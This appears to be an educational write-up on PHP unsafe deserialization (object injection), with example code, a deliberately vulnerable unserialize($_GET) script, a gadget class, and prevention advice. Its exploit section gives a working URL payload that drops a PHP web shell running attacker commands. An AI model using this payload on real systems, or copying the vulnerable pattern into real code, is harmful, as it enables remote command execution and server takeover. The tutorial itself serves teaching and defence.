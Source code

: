 ![Unsafe Deserialization](image/serialization.png?raw=true "Unsafe Deserialization")
# Description
Unsafe Deserialization (also referred to as Insecure Deserialization) is a vulnerability wherein malformed and untrusted data input is insecurely deserialized by an application. It is exploited to hijack the logic flow of the application end might result in the execution of arbitrary code.

# Understanding Serialization and UnSerialization

## Serialize()

The serialize() function converts a storable representation of a value. To serialize data means to convert a value to a sequence of bits, so that it can be stored in a file, a memory buffer, or transmitted across a network.

Example:

```php
<?php

$our_array = array("Pentester","Nepal");
$serialized = serialize($our_array);
echo $serialized;

?>

```
Returns:
`a:2:{i:0;s:9:"Pentester";i:1;s:5:"Nepal";}`

Understanding the serialized string;

| String     | Meaning      |
| ------------- | ------------- | 
|a:2{|	    Array of 2 values|
|i:0|	       Integer, value [ index-0]|
|S:9:"Pentester"|    String, 9 chars long, string value "Pentester"|
|i:1|	Integer, value [index-1]|
|S:5:"Nepal"|	String , 5 chars long, string value "Nepal"


## unserialize()
Convert serialized data back into actual data.

Example:

```php
<?php
$data = serialize(array("Pentester", "Nepal"));

$test = unserialize($data);
var_dump($test);
?>
```
Returns:
`array(2) { [0]=> string(9) "Pentester" [1]=> string(5) "Nepal" }`

# Vulnerability

For example, the following script creates an instance of the object FSResource, serializes it, and then prints the string representation of the object.

```php
<?php

class FSResource {

    function __construct($path) {
        $this->path = $path;
        if (file_exists($path)) {
          $this->content = file_get_contents($path);
        }
    }

    function __destruct() {
        file_put_contents($this->path, $this->content);
    }

}

$resource = new FSResource('/tmp/file');
print(serialize($resource));

# Prints the following string representation:
# O:10:"FSResource":2:{s:4:"path";s:9:"/tmp/file";s:7:"content";s:0:"";}
```

The exploitation of deserialization in PHP is called PHP Object Injection, which happens when user-controlled input is passed as the first argument of the unserialize() function. This is a vulnerable script.php:

```php
<?php

$instance = unserialize($_GET["data"]);
?>
```

To be exploitable, the vulnerable piece of code must have enough PHP code in scope to build a working POP chain, a chain of reusable PHP code that causes a meaningful impact when invoked. The chain usually starts by triggering `__destroy()` or `__wakeup()` PHP magic methods, called when the object is destroyed or deserialized, in order to call other gadgets to conduct malicious actions on the system.

If the class FSResource defined in the paragrah above is in scope, an attacker could send an HTTP request containing a serialized representation of an FSResource object that creates a malicious PHP file to path with an arbitrary content when the `__destruct()` magic method is called upon destruction.

# Exploit

`http://localhost/script.php?data=O:10:%22FSResource%22:2:{s:4:%22path%22;s:9:%22shell.php%22;s:7:%22content%22;s:27:%22%3C?php%20system($_GET[%22cmd%22]);%22;}`

The payload above decodes as `O:10:"FSResource":2:{s:4:"path";s:9:"shell.php";s:7:"content";s:27:"<?php system($_GET["cmd"]);";}` and, when deserialized, it creates the shell.php allowing the attacker to run arbitrary commands on the systems.

# Prevention
Never use the unserialize() function on user-supplied input, and preferably use data-only serialization formats such as JSON. If you need to use PHP deserialization, a second optional parameter has been added in PHP 7 that enables you to specify an allow list of allowed classes.